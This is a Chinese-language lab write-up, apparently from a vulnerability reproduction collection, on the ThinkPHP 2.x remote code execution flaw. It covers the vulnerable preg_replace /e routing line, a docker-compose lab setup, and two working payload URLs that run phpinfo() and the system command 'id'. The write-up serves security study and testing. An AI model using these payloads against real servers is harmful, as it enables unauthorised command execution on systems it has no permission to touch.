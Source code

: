 # ThinkPHP 2.x 任意代码执行漏洞

## 漏洞描述

ThinkPHP 2.x版本中，使用`preg_replace`的`/e`模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。

## 环境搭建

执行如下命令启动ThinkPHP 2.1的Demo应用：

```bash
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/Index/Index`即可查看到默认页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D`即可执行`phpinfo()`：

![image-20220302144931898](./images/202203021449975.png)

执行系统命令：

```
http://your-ip:8080/index.php?s=/index/index/name/$%7Bsystem(id)%7D
```

![image-20220302145029395](./images/202203021450448.png)